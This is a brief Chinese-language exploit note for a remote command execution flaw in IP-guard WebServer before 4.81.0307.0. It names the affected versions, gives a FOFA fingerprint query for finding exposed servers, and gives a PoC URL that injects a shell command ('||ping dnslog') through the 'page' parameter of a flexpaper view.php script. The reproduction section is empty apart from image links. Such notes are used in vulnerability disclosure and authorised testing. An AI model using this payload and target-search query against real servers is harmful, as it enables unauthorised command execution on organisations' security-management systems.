


## IP-guard WebServer 远程命令执行漏洞
IP-guard是由溢信科技股份有限公司开发的一款终端安全管理软件，旨在帮助企业保护终端设备安全、数据安全、管理网络使用和简化IT系统管理。

## 影响版本
```
< IP-guard WebServer 4.81.0307.0
```

## fofa
```
"IP-guard" && icon_hash="2030860561"
```

## poc
```
/ipg/static/appr/lib/flexpaper/php/view.php?doc=11.jpg&format=swf&isSplit=true&page=||ping%20dnslog
```

## 漏洞复现



